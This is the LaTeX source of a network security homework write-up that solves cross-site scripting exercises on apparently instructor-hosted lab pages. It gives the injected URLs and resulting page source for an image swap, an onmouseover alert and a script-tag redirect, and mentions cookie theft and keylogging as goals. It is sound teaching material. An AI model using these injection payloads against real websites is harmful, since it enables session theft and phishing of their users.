\documentclass[12pt,letterpaper]{article}

\author{Jordan Bayles}
\title{Homework 1\\
\small ECE 478: Network Security}

%\date{}

%%Usepackage declarations
\usepackage[left=1in,top=1in,right=1in,bottom=1in]{geometry}
\usepackage{lastpage}
\usepackage{sectsty}
\usepackage{slashed}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{latexsym}
% Include for easy import of full pdf pages
\usepackage{pdfpages}
% Include for use of images
\usepackage{graphicx}
% Include for use of [H] placement specifier
\usepackage{float}
% Include for use of \toprule, \midrule, \bottomrule in tabular env.
\usepackage{booktabs}
% Include for setting spacing between lines
\usepackage{setspace}
% Code listing packages
\usepackage{listings}
\usepackage{xcolor}
\usepackage{color}
\usepackage[font=small,format=plain,labelfont=bf,up,textfont=it,up]{caption}
\usepackage{hyperref}

%% Package usages
\sectionfont{\normalsize}
\subsectionfont{\small}

%% New commands
\newcommand{\comment}[1]{}
\newcommand{\field}[1]{\mathbb{#1}} % requires amsfonts
\newcommand{\script}[1]{\mathcal{#1}} % requires amsfonts
\newcommand{\pd}[2]{\frac{\partial#1}{\partial#2}}

%% Access document variables
\makeatletter
\let\thetitle\@title
\let\theauthor\@author
\let\thedate\@date
\makeatother

%% Color Definitions
\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgrey}{gray}{0.8}
\definecolor{darkgrey}{gray}{1.6}

%% Code Listing Configuration
\DeclareCaptionFormat{listing}{\colorbox{gray}{\parbox{0.987\linewidth}{#1#2#3}}}
\captionsetup[lstlisting]{format=listing, labelfont=white, indention=0pt, textfont=white, margin=0pt, font={bf,footnotesize}, singlelinecheck=false}
\DeclareCaptionFont{white}{\color{white}}
\renewcommand{\lstlistingname}{Code}
\lstset{ %
  %Some lang opts: C++, C, Java, Python, Matlab, TeX, HTML, SQL, Verilog, VHDL, make, ...
  basicstyle=\footnotesize\ttfamily , % the size of the fonts that are used for the code
  numbers=left,                       % where to put the line-numbers
  numberstyle=\scriptsize\color{darkgray}, % the style that is used for the line-numbers
  stepnumber=2,                       % the step between two line-numbers. 
  numbersep=5pt,                      % how far the line-numbers are from the code
  backgroundcolor=\color{white},      % choose the background color. You must add \usepackage{color}
  showspaces=false,                   % show spaces adding particular underscores
  showstringspaces=false,             % underline spaces within strings
  showtabs=false,                     % show tabs within strings adding particular underscores
  frame=tb,                           % adds a frame around the code
  rulesepcolor=\color{gray},          % if not set, the frame-color may be changed on line-breaks within not-black text (e.g. commens (green here))
  tabsize=2,                          % sets default tabsize to 2 spaces
  captionpos=t,                       % sets the caption-position
  breaklines=true,                    % sets automatic line breaking
  breakatwhitespace=false,            % sets if automatic breaks should only happen at whitespace
  title=\lstname,                     % show the filename of files included with \lstinputlisting;
  keywordstyle=\color{blue},          % keyword style
  commentstyle=\color{dkgreen},       % comment style
  stringstyle=\color{mauve},          % string literal style
  escapeinside={\%*}{*)},             % if you want to add a comment within your code
  morekeywords={*,...}                % if you want to add more keywords to the set
  framexbottommargin=5pt,
}

\begin{document}
\begin{flushright}
\theauthor\\
\thedate
\end{flushright}
\begin{center}
\thetitle
\end{center}

\section*{0. Disclaimer}
\emph{This submission reflects my own understanding of the homework and
solutions. All of the ideas are my own, unless I explicitly acknowledge otherwise.}

\section*{1. Unknown HTML tag attributes}
I was unable to find hard information in my actual browser (Mozilla Firefox) documentation,
however according to the HTML standard\footnote{\url{http://bytes.com/topic/html-css/answers/542484-browser-behavior-unknown-tags-attributes}}, the web browser is supposed to simply ignore unknown tags. I tried a simple test case
and this appeared to be the case.

\section*{2. Skull replacement through XSS}
Creating an XSS attack is very straightforward, as you can view the page source. To attack, you
just have to change the URL query value from \verb~color=red~ to point to the img src. Note that
this webpage simply takes the URL query value and sets \verb~src="<URL query value>.png"~ as an
attribute in an \verb~img~ tag. To get around this, we need to make the \verb~.png~ part of
a different tag, the way I did it was like this (ignoring newlines):
\begin{verbatim}
http://web.engr.oregonstate.edu/~rosulekm/netsec/hw/xss-hw1.php?
color=http://web.engr.oregonstate.edu/~rosulekm/netsec/hw/skull.gif
%22%20id=%22bad_image
\end{verbatim}

Resulting in page source looking like:
\lstset{caption={Descriptive Caption Text},label=DescriptiveLabel,language=HTML}
\begin{lstlisting}
<form method="GET">
  Select your favorite color: 
  <select name="color">
    <option value="blue"  >blue</option>
    <option value="red"  >red</option>
  </select>
  <input type="submit" value="go">
</form>

<img width=100 height=100 src="http://web.engr.oregonstate.edu/~rosulekm/netsec/hw/skull.gif" id="bad_image.png">
\end{lstlisting}

And page result looking like:
\begin{figure}[H]
\centering

\includegraphics[width=4in]{output1.png}
\caption{Page output with modified image}
\end{figure}

\section*{3. Syntax for image to cause alert box}
The syntax is \verb~onmouseover="script"~, according to w3schools\footnote{\url{http://www.w3schools.com/tags/ev_onmouseover.asp}}.

\section*{4. XSS attack causing alert box}
Making the previous example more complicated, we can just insert a valid
\verb~onmouseover~ tag into the URL query:
\begin{verbatim}
http://web.engr.oregonstate.edu/~rosulekm/netsec/hw/xss-hw1.php?color=http://web.engr.oregonstate.edu/~rosulekm/netsec/hw/skull.gif%22%20onmouseover=alert%28%29%20id=%22bad_image
\end{verbatim}

Which causes an empty alert box on mouseover.
\begin{figure}[H]
\centering

\includegraphics[width=4in]{output2.png}
\caption{Page output with empty alert box}
\end{figure}

\section*{5. XSS attack with no quotes allowed}
You can put a question mark at the end of the valid URL string, indicating
to your browser the rest of it isn't part of the URL. The attack is much
simpler than the first one then, with the URL simply being
\begin{verbatim}
http://web.engr.oregonstate.edu/~rosulekm/netsec/hw/xss-hw2.php?
color=http://web.engr.oregonstate.edu/~rosulekm/netsec/hw/skull.gif?
\end{verbatim}

\section*{6. What information could be gained?}
Since these exploits allow the running of arbitrary JavaScript, the potential
information gained is similar to most malicious JavaScript. The biggest types
of attacks are
\begin{itemize}
\item \textbf{Cookie theft} using \verb~document.cookie~
\item \textbf{Keylogging} using \verb~addEventListener~
\item \textbf{Phishing} using a fake login form
\end{itemize}

With a little bit of social engineering, the XSS-modified URL can be distributed
to the victim - who is much more likely to trust it due to the fact that the
page URL is what he recognizes as his own - providing a simple avenue for
this information to be stolen.

\section*{7. Non-standard HTTP headers?}
Yes it does, setting \verb~X-XSS-Protection~ to zero. Also, I'm going to go
out on a limb and say ``This is Spinal Tap'' probably isn't the
``Greatest Movie Of All Time'' although its 8.0/\textbf{11} is both impressive
and a witty reference.

\begin{verbatim}
HTTP Response Header
Name	Value	Delim
Status: HTTP/1.1 200 OK
Date:	Fri, 11 Apr 2014 13:02:56 GMT	
Server:	Apache/2.2.15 (Red Hat)	
X-XSS-Protection:	0	
X-Greatest-Movie-Of-All-Time:	http://www.imdb.com/title/tt0088258/	
Connection:	close	
Transfer-Encoding:	chunked	
Content-Type:	text/html; charset=UTF-8
\end{verbatim}

\section*{8. XSS attack on \verb~xss-hw3.php~}
This was definitely the most difficult part of the assignment, as following
the blog's perscription of \verb~<script>...</script><foo~ and using a JavaScript
redirect resulted in the end of the string being replaced with
whatever you tried to redirect or set window/document/self location to,
so instead of getting your redirect you just got
your original url query, except \verb~</script><foo~ was replaced by 
\verb~</your redirect address~, which was very frustrating.

It appears the trick in getting the server to ``play nice'' with our attack
is to prepend "http://" before the address in the script, e.g.
\begin{verbatim}
web.engr.oregonstate.edu/~rosulekm/netsec/hw/xss-hw3.php/">
<script>window.location.replace("http://~rosulekm/netsec/hw/xss-hw-eviltarget.php");
</script> <foo
\end{verbatim}

This results in a proper redirect, as the server basically prepends it without
the ``http://'' prefix. It accomplishes this by modifying the HTML body
to include a JavaScript section, which then replaces the location of the current
window with our desired target page.
\end{document}
